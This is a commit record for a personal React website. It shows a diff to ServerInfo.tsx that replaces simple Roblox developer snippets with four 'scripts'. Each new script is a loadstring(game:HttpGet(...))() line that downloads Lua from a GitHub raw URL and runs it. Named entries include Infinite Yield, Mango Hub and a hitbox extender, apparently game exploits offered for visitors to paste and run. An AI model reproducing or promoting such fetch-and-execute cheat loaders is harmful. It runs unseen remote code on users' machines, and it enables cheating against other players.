

Before and after one commit to vanithgh/Vanith-Website-dc, a React (Vite) app: page / in a window 1280 px wide. Shown: the part 1921-2873 px from the top of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers; grey boxes are pictures that could not be loaded.

Commit message:
Update ServerInfo.tsx

```diff
--- a/src/components/ServerInfo.tsx
+++ b/src/components/ServerInfo.tsx
@@ -29,41 +29,24 @@ const rules = [
 const scripts = [
   {
     id: 1,
-    name: 'Developer Script Hub',
-    code: `-- // Developer Script Hub (Mobile-Friendly)
--- Place in StarterGui > ScreenGui > LocalScript
--- Safe for developer/admin use only (not exploits)
-
-local Players = game:GetService("Players")
-local UIS = game:GetService("UserInputService")
-local RunService = game:GetService("RunService")
-local LocalPlayer = Players.LocalPlayer`
+    name: 'Infinite Yield',
+    code: `loadstring(game:HttpGet('https://raw.githubusercontent.com/EdgeIY/infiniteyield/master/source'))()`
   },
   {
     id: 2,
-    name: 'Admin Commands',
-    code: `-- Admin Commands Script
-local Players = game:GetService("Players")
-local player = Players.LocalPlayer
-
-function teleport(targetName)
-    local target = Players:FindFirstChild(targetName)
-    if target then
-        player.Character:MoveTo(target.Character.HumanoidRootPart.Position)
-    end
-end`
+    name: 'Mango Hub für Brookhaven',
+    code: `loadstring(game:HttpGet("https://raw.githubusercontent.com/rogelioajax/lua/main/MangoHub", true))()`
   },
   {
     id: 3,
-    name: 'Speed Boost',
-    code: `-- Speed Boost Script
-local player = game.Players.LocalPlayer
-local character = player.Character or player.CharacterAdded:Wait()
-local humanoid = character:WaitForChild("Humanoid")
-
-humanoid.WalkSpeed = 50
-print("Speed boosted to 50!")`
-  }
+    name: 'Realistic Hood (oder in paar andere hitbox extender)',
+    code: `loadstring(game:HttpGet("https://raw.githubusercontent.com/YellowGregs/Loadstring/refs/heads/main/rhtestesting.lua"))()`
+  },
+  {
+    id: 4,
+    name: 'Dynamic Oma 👩‍🦳',
+    code: `loadstring(game:HttpGet("https://raw.githubusercontent.com/DEERSTUDIO101/Vanith_script/refs/heads/main/Vanith_v1.lua",true))()`
+  },
 ];
 
 export function ServerInfo({ staff, channels, isLoading }: ServerInfoProps) {
```
